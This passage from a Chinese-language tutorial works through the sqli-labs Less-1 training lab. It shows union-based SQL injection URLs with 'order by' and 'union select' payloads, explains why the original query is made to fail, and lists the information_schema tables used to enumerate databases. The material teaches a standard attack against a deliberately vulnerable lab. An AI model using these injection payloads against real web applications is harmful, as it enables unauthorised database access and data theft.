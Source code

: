 ![3c639baf3248a71af6215c1b445fa8d](https://gitee.com/zh0y0/picture/raw/master/zh0y0/3c639baf3248a71af6215c1b445fa8d.png)

###### 4.order by 语句判断字段个数

知道了这些前置知识之后，我们再来做这个题目就很简单了

```
http://192.168.191.138/sqli-labs-master/less-1/?id=1' order by 4 --+ 
```

![3e56f72e67eb3f03b09c22003a8d3c8](https://gitee.com/zh0y0/picture/raw/master/zh0y0/3e56f72e67eb3f03b09c22003a8d3c8.png)

这里报错，说明没有4列，那么试试3报错不报错

```
http://192.168.191.138/sqli-labs-master/less-1/?id=1' order by 3 --+ 
```

![676c728c406c5b008db7642cdfcebdc](https://gitee.com/zh0y0/picture/raw/master/zh0y0/676c728c406c5b008db7642cdfcebdc.png)

完美不报错，那么由此确定，在执行sql语句的时候只select了3列

###### 5.union select 判断回显点

看到这里的2和3这两个位置都是回显数据的，那么我们可以在这两个位置来查询数据，这里又有一个知识点，为什么要输入-1而不是1呢

```
http://192.168.191.138/sqli-labs-master/less-1/?id=-1' union select 1,2,3 --+
```

![84203ac0545f61cb10e1bccd7ab81b7](https://gitee.com/zh0y0/picture/raw/master/zh0y0/84203ac0545f61cb10e1bccd7ab81b7.png)

我们来解释一下为什么，我们来执行这条语句

```mysql
select name from student1 where id =1 union select database()
```

我们可以看到联合查询的时候，这个1也在name这个列，但是我们在注入的时候，需要的往往是那个union select的东西，而不是他原本的东西，如果说他原本的语句正常执行了，在页面回显的时候我联合查询的东西就会回显不出来，所以需要让第一个语句给他执行失败，像我们下面这样

![b5b2d47db32bf1768dcd894bd08e54a](https://gitee.com/zh0y0/picture/raw/master/zh0y0/b5b2d47db32bf1768dcd894bd08e54a.png)

我们执行下面这条语句，虽然前面的语句失败了，但是并不影响我们想要的结果，这样我们联合查询的结果就出来了，这也就是为什么联合查询的时候需要让他原本的语句出错的原因

```mysql
select name from student1 where id =11111 union select database()
```

![5ea89d9152b1cc9a75679c051c73202](https://gitee.com/zh0y0/picture/raw/master/zh0y0/5ea89d9152b1cc9a75679c051c73202.png)

###### 6.mysql相关说明

information_schema：表示所有信息，包括库、表、列

information_schema.tables：记录所有表名信息的表

information_schema.columns：记录所有列名信息的表

table_schema：数据库的名称
